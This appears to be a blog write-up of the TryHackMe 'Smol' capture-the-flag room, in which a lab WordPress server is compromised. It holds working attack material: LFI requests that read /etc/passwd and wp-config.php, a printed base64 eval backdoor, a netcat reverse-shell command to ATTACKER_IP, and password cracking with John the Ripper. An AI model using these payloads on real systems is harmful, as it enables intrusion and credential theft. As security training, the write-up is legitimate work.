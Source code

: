 ```yaml
---
title: "Writeup: TryHackMe Smol"
date: "2025-02-21T20:12:59.577Z"
slug: "writeup-tryhackme-smol"
categories:
    - "writeups"
    - "it"
---
```


> [!info]
> - [Smol](https://tryhackme.com/r/room/smol)
> - Difficulty: medium
> - Platform: web, linux
>
> At the heart of Smol is a WordPress website, a common target due to its extensive plugin ecosystem. The machine showcases a publicly known vulnerable plugin, highlighting the risks of neglecting software updates and security patches. Enhancing the learning experience, Smol introduces a backdoored plugin, emphasizing the significance of meticulous code inspection before integrating third-party components.
>
> Quick Tips: Do you know that on computers without GPU like the AttackBox, John The Ripper is faster than Hashcat?
>
> Answer the questions below
> 1. What is the user flag?
> 2. What is the root flag?

The fun part of this room was hopping from one user to another in order to get the root. Vulnerabilities explored were:

- Vulnerable components with LFI and RCE
- Password reuse
- Weak passwords
- User access misconfiguration (group access, PAM, sudoers)


{{< toc >}}

## Information gathering

From the description it looks like we need to find one vulnerable WordPress plugin and with its help find another one. Webpage source code links to JS file belonging to the plugin `jsmol2wp`:

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/JSmol.min.nojq.js?ver=14.1.7_2014.06.09
```

This plugin has LFI vulnerability [CVE-2018-20463](https://nvd.nist.gov/vuln/detail/CVE-2018-20463).

## Getting into the WordPress dashboard via LFI

I navigated to `http://www.smol.thm/wp-content/plugins/jsmol2wp/` to view plugin directory structure so that I could find the vulnerable file. To confirm the vulnerability:

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?query=php://filter/resource=file:///etc/passwd
...
think:x:1000:1000:,,,:/home/think:/bin/bash
fwupd-refresh:x:113:117:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
xavi:x:1001:1001::/home/xavi:/bin/bash
diego:x:1002:1002::/home/diego:/bin/bash
gege:x:1003:1003::/home/gege:/bin/bash
```

From there I lost time trying to pivot [LFI2RCE via PHP filters](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/lfi2rce-via-php-filters.html) because I forgot about the second plugin. I wasn't able to make it work.

My next step after reading hacktricks was checking `wp-config.php` file. There is a database user and password.

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?query=php://filter/resource=../../../../wp-config.php
...
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'REDACTED' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );
```

I logged in with this user and password at `http://www.smol.thm/wp-login.php`

## Finding a backdoored plugin

There, in the dashboard, I saw a private page `Webmaster Tasks!!`. It mentions plugin `Hello Dolly`. Using previously found LFI vulnerability I got its code:

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?query=php://filter/resource=../../../plugins/hello.php
```

The code has a weird line:

```php
eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```

Decoding it from base64:

```php
 if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); } 
```

Looks like a promised backdoor. Next, I decoded the parameter name:

```bash
$ php -r 'echo "\143\155\x64 \143\x6d\144";' 
cmd cmd
```

To confirm the backdoor I passed `cmd` query parameter in the dashboard so that result was shown on the page:

```
http://www.smol.thm/wp-admin/index.php?cmd=whoami
```

Having confirmed RCE, I started a reverse shell:

```
http://www.smol.thm/wp-admin/?cmd=rm %2Ftmp%2Ff%3Bmkfifo %2Ftmp%2Ff%3Bcat %2Ftmp%2Ff|%2Fbin%2Fbash -i 2>%261|nc ATTACKER_IP 443 >%2Ftmp%2Ff

```

Make sure to stabilize shell.

## Getting access to `diego` and user flag

Since I already knew database user and password, I connected to the database and got users table:

```
$ mysql -u wpuser -p

mysql> use wordpress;
mysql> select user_login, user_pass from wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| admin      | $P$REDACTED                        |
| wpuser     | $P$REDACTED                        |
| think      | $P$REDACTED                        |
| gege       | $P$REDACTED                        |
| diego      | $P$REDACTED                        |
| xavi       | $P$REDACTED                        |
+------------+------------------------------------+
```

John the Ripper with `rockyou` wordlist cracked a password for the user `diego`:

```bash
$ cat pass   
admin:$P$REDACTED
wpuser:$P$REDACTED
think:$P$REDACTED
gege:$P$REDACTED
diego:$P$REDACTED
xavi:$P$REDACTED

$ john -w=/usr/share/wordlists/rockyou.txt pass   
...

$ john --show pass
diego:REDACTED
```

In the current reverse shell I changed user to `diego` and got the flag:

```bash
$ su diego
$ cat /home/diego/user.txt
REDACTED
```


## Getting access to `think`

While exploring the system I was able to read private SSH key of the user `think`.

```bash
$ ls /home/think/.ssh
authorized_keys
id_rsa
id_rsa.pub
```

I copied it to the attack machine and logged in via SSH.

## Getting access to `gege`

Another interesting file I saw was `/home/gege/wordpress.old.zip` which I wasn't able to access.

Using [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) I didn't find anything except for its suggestion to try login as different users without a password. Which, surprisingly, worked: `su gege`. It did [because of PAM configuration](https://jaxafed.github.io/posts/tryhackme-smol/#shell-as-gege) in `/etc/pam.d/su`.

## Getting access to `xavi`

File `wordpress.old.zip` was password-protected. I copied it to the attack machine and ran John the Ripper again:

```bash
$ zip2john wordpress.old.zip > wp   
$ john -w=/usr/share/wordlists/rockyou.txt wp
...
$ john --show pass 
REDACTED    
```

After unzipping the archive I found another `wp-config.php` file:

```
define( 'DB_NAME' 'wordpress' );
define( 'DB_USER', 'xavi' );
define( 'DB_PASSWORD', 'REDACTED' )
define( 'DB_HOST', 'localhost' );  
```

Attempt to change user to `xavi` with this password was successful.

## Getting the root flag

Checking privileges for user `xavi` showed that they can run all commands with `sudo`:

```bash
$ sudo -l
[sudo] password for xavi: 
Matching Defaults entries for xavi on smol:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User xavi may run the following commands on smol:
    (ALL : ALL) ALL

```

Finally, the root flag:

```bash
$ sudo cat /root/root.txt
REDACTED
```
